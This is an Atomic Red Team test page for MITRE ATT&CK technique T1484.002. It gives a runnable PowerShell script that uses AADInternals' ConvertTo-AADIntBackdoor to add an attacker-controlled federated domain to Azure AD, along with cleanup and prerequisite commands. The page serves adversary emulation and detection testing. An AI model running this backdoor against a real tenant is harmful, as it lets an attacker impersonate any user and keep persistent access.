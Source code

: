 # T1484.002 - Domain Trust Modification
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1484/002)
<blockquote>Adversaries may add new domain trusts or modify the properties of existing domain trusts to evade defenses and/or elevate privileges. Domain trust details, such as whether or not a domain is federated, allow authentication and authorization properties to apply between domains for the purpose of accessing shared resources.(Citation: Microsoft - Azure AD Federation) These trust objects may include accounts, credentials, and other authentication material applied to servers, tokens, and domains.

Manipulating the domain trusts may allow an adversary to escalate privileges and/or evade defenses by modifying settings to add objects which they control. For example, this may be used to forge [SAML Tokens](https://attack.mitre.org/techniques/T1606/002), without the need to compromise the signing certificate to forge new credentials. Instead, an adversary can manipulate domain trusts to add their own signing certificate. An adversary may also convert a domain to a federated domain, which may enable malicious trust modifications such as altering the claim issuance rules to log in any valid set of credentials as a specified user.(Citation: AADInternals zure AD Federated Domain) </blockquote>

## Atomic Tests

- [Atomic Test #1 - Add Federation to Azure AD](#atomic-test-1---add-federation-to-azure-ad)


<br/>

## Atomic Test #1 - Add Federation to Azure AD
Add a new federated domain to Azure AD using PowerShell.
The malicious domain to be federated must be configured beforehand (outside of the scope of this test):
    1. Open Azure Portal
    2. Add a new "custom domain name"
    3. Verify the domain by following instructions (i.e. create the requested DNS record)

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 8906c5d0-3ee5-4f63-897a-f6cafd3fdbb7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| azure_username | Username of a privileged Azure AD account such as External Identity Provider Administrator or Global Administrator roles | string | bruce.wayne@contosocloud.com|
| azure_password | Password of azure_username | string | iamthebatman|
| domain_name | Malicious federated domain name | string | contoso.com|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module AzureAD
Import-Module AADInternals

$PWord = ConvertTo-SecureString -String "#{azure_password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{azure_username}", $Pword

try {
  Connect-AzureAD -Credential $Credential -ErrorAction Stop > $null
}
catch {
  Write-Host "Error: AzureAD could not connect"
  exit 1
}

try {
  $domain = Get-AzureADDomain -Name "#{domain_name}"
}
catch {
  Write-Host "Error: domain ""#{domain_name}"" not found"
  exit 1
}
if (-Not $domain.IsVerified) {
  Write-Host "Error: domain ""#{domain_name}"" not verified"
  exit 1
}

if ($domain.AuthenticationType -eq "Federated") {
  Write-Host "Error: domain ""#{domain_name}"" already federated. Try with a different domain or re-create it before."
  exit 1
}

$at = Get-AADIntAccessTokenForAADGraph -Credentials $Credential
if (-Not $at) {
  Write-Host "Error: AADInternals could not connect"
  exit 1
}

$new = ConvertTo-AADIntBackdoor -AccessToken $at -DomainName "#{domain_name}"
if ($new) {
  Write-Host "Federation successfully added to Azure AD"
  Write-Host $new
}
else {
  Write-Host "The federation setup failed"
}

Write-Host "End of federation configuration."
```

#### Cleanup Commands:
```powershell
try {
  Import-Module AzureAD -ErrorAction Ignore

  $PWord = ConvertTo-SecureString -String "#{azure_password}" -AsPlainText -Force
  $Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{azure_username}", $Pword
  Connect-AzureAD -Credential $Credential -ErrorAction Ignore > $null

  Remove-AzureADDomain -Name "#{domain_name}" -ErrorAction Ignore
} catch {}
```



#### Dependencies:  Run with `powershell`!
##### Description: AzureAD and AADInternals Powershell modules must be installed.
##### Check Prereq Commands:
```powershell
if ((Get-Module -ListAvailable -Name AzureAD) -And (Get-Module -ListAvailable -Name AADInternals)) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AzureAD -Force
Install-Module -Name AADInternals -Force
```




<br/>
